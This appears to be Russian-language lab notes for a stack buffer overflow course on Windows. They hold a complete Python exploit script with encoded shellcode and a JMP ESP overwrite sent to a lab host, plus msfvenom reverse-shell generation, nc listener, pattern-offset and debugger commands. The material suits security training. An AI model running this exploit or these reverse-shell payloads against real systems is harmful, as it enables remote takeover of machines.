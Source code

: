 Узнать размер буффера на котором падает программа
послать строку сгенерированных символов тчобы узнать точную длину в EIP
```python
#!/usr/bin/python
import socket
from struct import pack
#allcharacts = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"


buf =  b""
buf += b"\xbd\x02\x86\xb0\x7c\xdd\xc7\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x52\x83\xe8\xfc\x31\x68\x0e\x03\x6a"
buf += b"\x88\x52\x89\x96\x7c\x10\x72\x66\x7d\x75\xfa\x83"
buf += b"\x4c\xb5\x98\xc0\xff\x05\xea\x84\xf3\xee\xbe\x3c"
buf += b"\x87\x83\x16\x33\x20\x29\x41\x7a\xb1\x02\xb1\x1d"
buf += b"\x31\x59\xe6\xfd\x08\x92\xfb\xfc\x4d\xcf\xf6\xac"
buf += b"\x06\x9b\xa5\x40\x22\xd1\x75\xeb\x78\xf7\xfd\x08"
buf += b"\xc8\xf6\x2c\x9f\x42\xa1\xee\x1e\x86\xd9\xa6\x38"
buf += b"\xcb\xe4\x71\xb3\x3f\x92\x83\x15\x0e\x5b\x2f\x58"
buf += b"\xbe\xae\x31\x9d\x79\x51\x44\xd7\x79\xec\x5f\x2c"
buf += b"\x03\x2a\xd5\xb6\xa3\xb9\x4d\x12\x55\x6d\x0b\xd1"
buf += b"\x59\xda\x5f\xbd\x7d\xdd\x8c\xb6\x7a\x56\x33\x18"
buf += b"\x0b\x2c\x10\xbc\x57\xf6\x39\xe5\x3d\x59\x45\xf5"
buf += b"\x9d\x06\xe3\x7e\x33\x52\x9e\xdd\x5c\x97\x93\xdd"
buf += b"\x9c\xbf\xa4\xae\xae\x60\x1f\x38\x83\xe9\xb9\xbf"
buf += b"\xe4\xc3\x7e\x2f\x1b\xec\x7e\x66\xd8\xb8\x2e\x10"
buf += b"\xc9\xc0\xa4\xe0\xf6\x14\x6a\xb0\x58\xc7\xcb\x60"
buf += b"\x19\xb7\xa3\x6a\x96\xe8\xd4\x95\x7c\x81\x7f\x6c"
buf += b"\x17\xa4\x75\x60\x61\xd0\x8b\x7c\x69\xf3\x05\x9a"
buf += b"\x1b\xe3\x43\x35\xb4\x9a\xc9\xcd\x25\x62\xc4\xa8"
buf += b"\x66\xe8\xeb\x4d\x28\x19\x81\x5d\xdd\xe9\xdc\x3f"
buf += b"\x48\xf5\xca\x57\x16\x64\x91\xa7\x51\x95\x0e\xf0"
buf += b"\x36\x6b\x47\x94\xaa\xd2\xf1\x8a\x36\x82\x3a\x0e"
buf += b"\xed\x77\xc4\x8f\x60\xc3\xe2\x9f\xbc\xcc\xae\xcb"
buf += b"\x10\x9b\x78\xa5\xd6\x75\xcb\x1f\x81\x2a\x85\xf7"
buf += b"\x54\x01\x16\x81\x58\x4c\xe0\x6d\xe8\x39\xb5\x92"
buf += b"\xc5\xad\x31\xeb\x3b\x4e\xbd\x26\xf8\x7e\xf4\x6a"
buf += b"\xa9\x16\x51\xff\xeb\x7a\x62\x2a\x2f\x83\xe1\xde"
buf += b"\xd0\x70\xf9\xab\xd5\x3d\xbd\x40\xa4\x2e\x28\x66"
buf += b"\x1b\x4e\x79"
offset = 469 №точтая длина буфера после которой падает получить можно с помощью pattern_offset
buffer = b"A" * offset # для переполнения
eip = pack('<L', 0x621014E3) # где находится JPM ESP
nop = b"\x90"*32 # для выравнивания
payload = buffer + eip + nop +buf #после EIP послать строку символов для узнавания плохих символов которые находятся по адресу в ESP в дальнейшем их надо исключить
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.129.89.1", 21449))
s.send(payload)
s.close()
print("\nDone")


```

`xfreerdp /v:<target IP address> /u:htb-student /p:<password>`

RDP для виртуальной машины Windows

`/usr/bin/msf-pattern_create -l 5000`

Создать шаблон

`/usr/bin/msf-pattern_offset -q 31684630`

Найти смещение шаблона по EIP
```bash
BAD_CHARACTERS_FOR_PYTHON =  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

`netstat -a |findstr LISTEN`

Список прослушиваемых портов на компьютере с Windows

`.\nc.exe 127.0.0.1 8888`

Взаимодействие с портом

`msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`

Сгенерировать локальный шелл-код Privesc

`msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'`

Создание обратного шелл-кода оболочки

`nc -lvnp 1234`

Прослушайте обратную оболочку

**x32dbg**

`F3`

Открыть файл

`alt+A`

Присоединение к процессу

`alt+L`

Перейдите на вкладку Журналы

`alt+E`

Перейдите на вкладку Символы

`ctrl+f`

Поиск инструкции

`ctrl+b`

Поиск шаблона

`Search For>All Modules>Command`

Поиск инструкций по всем загруженным модулям

`Search For>All Modules>Pattern`

Поиск шаблона во всех загруженных модулях

**ERC**

`ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`

Настройка рабочего каталога

`ERC --pattern c 5000`

Создать шаблон

`ERC --pattern o 1hF0`

Найти смещение шаблона

`ERC --bytearray`

Сгенерировать массив байтов всех символов

`ERC --bytearray -bytes 0x00`

Сгенерировать массив байтов, исключая определенные байты

`ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`

Сравните байты в памяти с файлом массива байтов

`ERC --ModuleInfo`

Список загруженных модулей и защита их памяти

**Python**

`python -c "print('A'*10000)"`

Вывод полезной нагрузки с фаззингом

`python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`

Записать полезную нагрузку с фаззингом в файл

`breakpoint()`

Добавить точку останова в эксплойт Python

`c`

Продолжить с точки останова